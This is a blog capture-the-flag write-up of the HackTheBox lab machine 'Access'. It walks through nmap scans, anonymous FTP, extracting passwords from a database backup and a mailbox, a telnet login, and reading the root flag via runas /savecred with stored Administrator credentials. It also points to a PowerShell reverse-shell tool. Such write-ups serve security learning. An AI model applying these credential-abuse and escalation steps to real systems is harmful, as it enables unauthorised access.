 ```yaml
---
title: Access
date: 2019-03-02
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="access-banner2.png" />
</p>

***


# External Recon

We kick off a basic "nmap" scan:

```
nmap -sC -sV 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see, we find some very common ports.
When we visit the website listening on "port 80" we just find a picture
of a server-room.

![Not so big](access-port80.png)

Let's check "ftp" and "telnet" by running another "nmap" scan.

```
nmap -A 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
```

First thing to note is that we have anonymous access to the "ftp" server.
Let's login an see what we find.


# Explore

```
ftp 10.10.10.98                                                                                                                            

Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
```

In both directories are files. I downloaded them with `get <filename>`.

![FTP-Files](access-ftp-files.png)

The zip file was password protected. So, I moved over to the database file.
I ran the tool "strings" and "grep" on it and hoped for a quick win. Perhaps we find a password.

And indeed I found a password to the zip:

```
strings backup.mdb | grep access
access4u@security
```

Of cause I tried different versions of this. `grep passw` and others.
To be honest. I don't know what else I tried. Perhaps I just piped "strings" into "more"
and searched manually. ;)

However in the zip file, I found a ".pst" file. If you don't know what this is, you
can run `file` against it and find out it's a "Microsoft Exchange" format for Mailboxes.

We can't read it how it is right now. So I searched for a converter. Very quickly
I came across "pst-tools". You can get them via "apt" in "kali".

After installing it, I ran `readpst`. It converted the file to a ".mbox" file.
You can get the file <a href="https://www.tagnull.de/post/access/access_controll.mbox">here</a>.

In it you find an email from John.

> Hi there,
> 
> The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
> 
> Regards,
> John

How kind! Thanks John! :)


# Exploit

Let's login with our new credentials:

![Telnet](access-telnet.png)

And we've got a shell. Including `user.txt`

```
C:\Users\security\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Desktop

08/28/2018  06:51 AM    <DIR>          .
08/28/2018  06:51 AM    <DIR>          ..
08/21/2018  10:37 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  16,767,012,864 bytes free

```

# Internal Recon

I searched around in the box for clues how to proceed. Eventually I checked for stored
credentials:

```
cmdkey /list

Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
```

If you want to learn more about "Windows Enumeration" check this <a href="https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide" target="_blank">blog</a>.
He has some `HackTheBox` WriteUps too.


# Privilege Escalation
In order to use those stored credentials, I used "runas" with the "/savecreds" option.

`runas /user:ACCESS\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt C:\Users\security\AppData\Local\Temp\root.txt"`

# Root Flag

So we've got our root.txt:

![Root](access-root.png)

But getting a shell is fun. At least when you don't do a writeup. For some reason my payloads wouldn't work anymore.
So I had to figure out another way to get a shell.

I won't give you the complete rundown today. I probably will do a seperate blog for different shells in the near future.
Just get yourself this repo: <a href="https://github.com/samratashok/nishang" target="_blank">Github: nishang</a> and play with
"Invoke-PowershellTCP". It's cool! :)

![Shell](access-shell.png)

# Lessons Learned
I should learn to take propper notes on my machines. I had to do the machine a second time basicly. *sigh*

That's it for today. Have a nice one!

x41
